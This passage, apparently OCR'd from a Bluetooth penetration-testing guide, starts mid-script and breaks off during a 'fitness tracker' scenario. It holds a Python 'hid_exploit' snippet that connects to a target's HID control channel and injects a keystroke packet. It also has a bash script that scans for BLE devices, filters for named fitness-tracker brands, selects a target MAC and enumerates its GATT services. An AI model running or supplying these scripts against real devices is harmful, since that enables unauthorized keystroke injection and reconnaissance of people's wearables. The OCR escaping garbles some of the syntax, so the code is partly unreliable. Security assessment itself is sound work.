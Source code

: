 \# Attempt HID profile exploitation if available\
if grep -q "Human Interface Device" services.txt; then\
echo "HID service found - testing input injection..."

    \# Attempt to connect as HID device  
    python3 \-c "  

import bluetooth

def hid_exploit(target_mac):\
try:\
\# Attempt HID connection\
sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)\
sock.connect((target_mac, 0x11)) \# HID Control channel

        \# Send test HID packet  
        sock.send(b'\\xa1\\x01\\x00\\x00\\x04\\x00\\x00\\x00\\x00')  \# 'a' key press  
            
        print('HID packet sent successfully')  
        sock.close()  
        return True  
    except Exception as e:  
        print(f'HID exploit failed: {e}')  
        return False  
        

hid_exploit('\$TARGET_MAC')\
"\
fi

### **Scenario 2: Fitness Tracker Security Assessment**

#### **Phase 1: BLE Device Discovery and Analysis**

#!/bin/bash\
\# Fitness Tracker BLE Security Assessment

echo "=== FITNESS TRACKER BLE PENETRATION TEST ==="

\# Step 1: BLE device discovery\
echo "Step 1: Discovering BLE devices..."\
sudo timeout 30s hcitool lescan \> ble_devices.txt

\# Filter for fitness tracker patterns\
grep -iE "(fitbit\|garmin\|samsung\|polar\|xiaomi\|amazfit)"
ble_devices.txt \> fitness_targets.txt

BLE_TARGET=\$(head -1 fitness_targets.txt \| grep -oE
'(\[0-9A-F\]{2}:){5}\[0-9A-F\]{2}')\
echo "Target fitness tracker: \$BLE_TARGET"

#### **Phase 2: BLE Service and Characteristic Enumeration**

\# Step 2: GATT service discovery\
echo "Step 2: Enumerating GATT services..."\
gatttool -b \$BLE_TARGET \--primary \> gatt_services.txt
